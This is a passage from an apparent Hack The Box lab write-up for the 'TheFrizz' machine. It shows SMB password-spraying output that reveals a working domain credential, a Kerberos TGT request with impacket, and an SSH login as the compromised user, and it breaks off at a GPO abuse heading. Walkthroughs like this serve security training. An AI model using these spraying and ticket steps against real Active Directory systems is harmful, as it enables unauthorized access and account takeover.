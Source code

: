```
SMB         frizzdc.frizz.htb 445    frizzdc          [-] frizz.htb\Guest:!suBcig@MehTed!R KDC_ERR_CLIENT_REVOKED
SMB         frizzdc.frizz.htb 445    frizzdc          [-] frizz.htb\krbtgt:!suBcig@MehTed!R KDC_ERR_CLIENT_REVOKED
SMB         frizzdc.frizz.htb 445    frizzdc          [-] frizz.htb\f.frizzle:!suBcig@MehTed!R KDC_ERR_PREAUTH_FAILED
SMB         frizzdc.frizz.htb 445    frizzdc          [-] frizz.htb\w.li:!suBcig@MehTed!R KDC_ERR_PREAUTH_FAILED
SMB         frizzdc.frizz.htb 445    frizzdc          [-] frizz.htb\h.arm:!suBcig@MehTed!R KDC_ERR_PREAUTH_FAILED
SMB         frizzdc.frizz.htb 445    frizzdc          [-] Error checking if user is admin on frizzdc.frizz.htb: The NETBIOS connection with the remote host timed out.
SMB         frizzdc.frizz.htb 445    frizzdc          [+] frizz.htb\M.SchoolBus:!suBcig@MehTed!R
```

A TGT is requested for `M.SchoolBus`.

```
fcoomans@kali:~/htb/thefrizz$ sudo ntpdate frizzdc.frizz.htb
2025-07-23 17:43:49.761599 (+0200) +289.697989 +/- 0.082687 frizzdc.frizz.htb 10.10.11.60 s1 no-leap
CLOCK: time stepped by 289.697989

fcoomans@kali:~/htb/thefrizz$ impacket-getTGT -dc-ip 10.10.11.60 'FRIZZ.HTB/m.schoolbus:!suBcig@MehTed!R'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Saving ticket in m.schoolbus.ccache

fcoomans@kali:~/htb/thefrizz$ export KRB5CCNAME=m.schoolbus.ccache

fcoomans@kali:~/htb/thefrizz$ klist
Ticket cache: FILE:m.schoolbus.ccache
Default principal: m.schoolbus@FRIZZ.HTB

Valid starting       Expires              Service principal
07/23/2025 17:42:21  07/24/2025 03:42:21  krbtgt/FRIZZ.HTB@FRIZZ.HTB
        renew until 07/24/2025 17:37:40
```

### 💰 Post Exploitation

The TGT is used to SSH to the target as `M.SchoolBus`.

```
fcoomans@kali:~/htb/thefrizz$ ssh -K m.schoolbus@frizzdc.frizz.htb
PowerShell 7.4.5
PS C:\Users\M.SchoolBus> whoami
frizz\m.schoolbus
```

## 🔗 GPO Link Abuse
